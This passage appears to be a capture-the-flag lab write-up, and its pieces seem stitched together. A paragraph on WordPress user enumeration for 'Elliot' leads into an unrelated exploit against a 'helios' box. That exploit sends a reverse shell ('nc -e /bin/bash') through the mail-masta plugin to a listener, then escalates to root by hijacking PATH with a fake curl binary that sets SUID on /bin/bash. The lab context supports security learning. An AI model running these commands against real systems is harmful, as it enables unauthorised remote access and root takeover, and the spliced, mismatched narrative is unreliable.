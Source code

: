 


If we enter an invalid user the content manager tells us that the user is invalid, but if we enter an existing one it tells us that for that user the password is incorrect.

Thanks to this vulnerability we could enumerate possible users that are in the database, but it will not be necessary who we are interested in is Elliot (based on the thematic of the CTF we can extrapolate a series of potential names).

Reviewing the dictionary that we obtained before, I could see that there are many repeated words which will make our brute force attack based on dictionary take more time, for this we will order the dictionary and eliminate the repeated lines.

```bash
❯ curl -s -X GET "http://192.168.100.58/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&cmd=nc+-e/bin/bash+192.168.100.53+443"

and we have to stay hearing on port 443

❯ nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.100.53] from (UNKNOWN) [192.168.100.58] 41684
whoami 
helios
```
Let's make a TTY treatment

```bash
bash-4.4$ export TERM=xterm
bash-4.4$ script /dev/null -c bash
bash-4.4$ CTRL + Z
> stty raw -echo;fg
bash-4.4$ stty rows 198 columns 68

```


## Privilege escalation

- now we have to search for SUID  vulnerabilties ```bash-4.4$ find \-perm -4000 -user root 2>/dev/null```
seems that we can abuse of SUID let's try it

```bash
bash-4.4$ strings /opt/statuscheck
curl -I H
http://lH
ocalhostH
AWAVA
AUATL
[]A\A]A^A_
;*3$" 
seems that we could take advantage of curl
so lets do it 
bash-4.4$ cd /tmp/
bash-4.4$ ls
bash-4.4$ echo "chmod u+s /bin/bash" >> curl
bash-4.4$ chmod +x curl
bash-4.4$ PATH=.:$PATH
bash-4.4$ ./opt/statuscheck
bash -p
bash-4.4# whoami
root
bash-4.4# cd /root/
bash-4.4# ls
bash-4.4# cat proof.txt 

```